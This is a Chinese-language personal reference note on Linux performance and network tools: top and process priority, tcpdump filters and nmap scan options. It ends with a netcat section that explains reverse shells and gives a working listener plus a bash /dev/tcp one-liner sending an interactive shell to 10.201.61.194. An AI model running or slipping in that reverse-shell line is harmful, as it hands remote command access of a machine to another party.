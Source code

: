 # 性能管理

## 一、CPU
### 1. top

load：在一段时间内，CPU正在处理以及等待CPU处理的进程数之和。

S：进程状态。D表示不可中断的睡眠状态；R表示运行；S表示睡眠；T表示跟踪/停止；Z表示僵尸进程。


```
ps -mp 19505 -o THREAD,tid,time
top -Hp 19505 -d 1 -n 1
```
###### PR和NI

进程的PR与NI列，这两个都代表了进程的优先级

PR是内核调度时使用的优先级(priority)，默认20，值越大优先级越低

NI是开放给用户调整的优先级(nice)，默认0，nice值越大，则进程会表现得越谦让(nice)，先让别的进程获得CPU，表现为优先级越低，最大值19。

###### 修改进程194023的NI值为5
```
renice -n 5 -p 194023
```

在内核代码里，PR才是CPU调度器真正使用的优化级，而NI只是开放给用户修改的。

NI值是给普通进程使用的，范围是[-20 ~ 19]共39个级别，对应PR就是[0 ~ 39]。

PR的取值范围可以是[-100 ~ 39]共139个级别，其中[-100, -1]是给实时进程用的。
#### 交互式命令
```
1 线程
z 颜色高亮
b 加粗
t 任务
m 内存

```

### 参考资料
[TOP中的PR和NI](https://juejin.cn/post/7040095840089669639)



## 二、内存

## 三、磁盘

## 四、网络

### 1. tcpdump

###### 格式：

```
系统时间 来源主机.端口 > 目标主机.端口 数据包参数
```

###### 1. 指定IP和端口

```
tcpdump tcp port 23 and host 210.27.48.1
```

###### 2. 开始和结束的数据包

```
tcpdump 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0 and not src and dst net localnet'
```

### 2. nmap

Nmap用于在远程机器上探测网络，执行安全扫描，网络审计和搜寻开放端口。

###### NMAP命令用法

```
nmap [Scan Type(s)] [Options] {target specification}
```
默认会显示端口，服务名，mac等信息

######  多目标
- 空格分隔的多个地址
- 使用*通配符
- 逗号分隔ip最后一个字节，如192.168.0.101,102,103
- ip范围，如192.168.0.101-200

###### options
- -A 操作系统和版本检测，路由跟踪功能
- -sA 主机是否使用了包过滤器或防火墙
- -sP IP范围中哪些在线
- –iflist 选项检测主机接口和路由信息。
- -sV 查找主机服务版本号

包过滤防火墙会阻断标准的ICMP ping请求，在这种情况下，我们可以使用TCP ACK(PA)和TCP Syn(PS)方法来扫描远程主机。


```
nmap -PA -p 22,80 192.168.0.101
nmap -PS -p 22,80 192.168.0.101
```

### 3. netcat

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。

> 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。



##### 监听和连接
```
nc -lvp 6767
bash -i >/dev/tcp/10.201.61.194/6767  0>&1 2>&1
```
